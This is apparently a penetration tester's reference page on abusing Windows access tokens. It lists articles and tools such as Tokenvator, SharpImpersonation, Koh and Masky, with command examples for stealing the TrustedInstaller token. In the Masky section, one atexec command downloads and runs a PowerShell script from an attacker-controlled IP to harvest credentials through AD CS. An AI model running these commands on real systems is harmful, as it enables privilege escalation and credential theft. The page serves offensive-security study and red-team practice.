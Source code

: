# Token Manipulation

- [https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b](https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b)
- [https://securitytimes.medium.com/understanding-and-abusing-process-tokens-part-i-ee51671f2cfa](https://securitytimes.medium.com/understanding-and-abusing-process-tokens-part-i-ee51671f2cfa)
- [https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962](https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962)
- [https://xret2pwn.github.io//Access-Token-Part0x01/](https://xret2pwn.github.io//Access-Token-Part0x01/)
- [https://xret2pwn.github.io//Building-Token-Vault-Part0x02/](https://xret2pwn.github.io//Building-Token-Vault-Part0x02/)
- [https://rastamouse.me/token-impersonation-in-csharp/](https://rastamouse.me/token-impersonation-in-csharp/)
- [[PDF] Technical Analysis of Access Token Theft and Manipulation (McAfee)](https://www.mcafee.com/enterprise/en-us/assets/reports/rp-access-token-theft-manipulation-attacks.pdf)

![Access Token Theft and Manipulation (McAfee)](/.gitbook/assets/011.png)




## Trusted Installer Token

- [https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1)
- [https://github.com/rweijnen/Posh-Snippets/blob/master/DCOM-FixUp.ps1](https://github.com/rweijnen/Posh-Snippets/blob/master/DCOM-FixUp.ps1)

```
PS > Install-Module -Name NtObjectManager -Confirm:$false
PS > Restart-Service TrustedInstaller
PS > $procId = (Get-Process TrustedInstaller).Id
PS > $token = Get-NtTokenFromProcess -ProcessId $procId
PS > $current = Get-NtThread -Current -PseudoHandle
PS > $ctx = $current.Impersonate($token)
PS > $impToken = Get-NtToken -Impersonation
PS > $impToken.Groups
```




## Tools

- [https://github.com/dievus/msImpersonate](https://github.com/dievus/msImpersonate)
- [https://github.com/magnusstubman/tokenduplicator](https://github.com/magnusstubman/tokenduplicator)



### Tokenvator

- [https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/](https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/)
- [https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-release-2/](https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-release-2/)
- [https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)



### SharpImpersonation

- [https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)
- [https://github.com/S3cur3Th1sSh1t/SharpImpersonation](https://github.com/S3cur3Th1sSh1t/SharpImpersonation)

```
PS > .\SharpImpersonation.exe list [elevated]
PS > .\SharpImpersonation.exe list user:PC01\snovvcrash binary:"powershell.exe whoami"
PS > .\SharpImpersonation.exe list user:PC01\snovvcrash technique:ImpersonateLoggedOnuser
```



### Koh

- [https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6](https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6)
- [https://github.com/GhostPack/Koh](https://github.com/GhostPack/Koh)



### Masky

- [https://z4ksec.github.io/posts/masky-release-v0.0.3/](https://z4ksec.github.io/posts/masky-release-v0.0.3/)
- [https://github.com/Z4kSec/Masky](https://github.com/Z4kSec/Masky)
- [https://threadreaderapp.com/thread/1563247630129725442.html](https://threadreaderapp.com/thread/1563247630129725442.html)

Combining with AD CS abuse:

{% content-ref url="/pentest/infrastructure/ad/ad-cs-abuse/README.md" %}
[README.md](README.md)
{% endcontent-ref %}

```
$ pipx install -f 'git+https://github.com/Z4kSec/Masky.git'
$ masky -d tinycorp -u snovvcrash -p 'Passw0rd!' -ca 'CA01.megacorp.local\CorpCA' -dc-ip 192.168.1.11 10.10.13.37
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'powershell iex(new-object net.webclient).downloadstring(""""http://10.10.13.37/Invoke-Masky.ps1"""");Invoke-Masky /ca:CA01.megacorp.local\CorpCA'
```



### Impersonate

- [https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/](https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/)
- [https://github.com/sensepost/impersonate](https://github.com/sensepost/impersonate)
- [https://github.com/zblurx/impersonate-rs](https://github.com/zblurx/impersonate-rs)
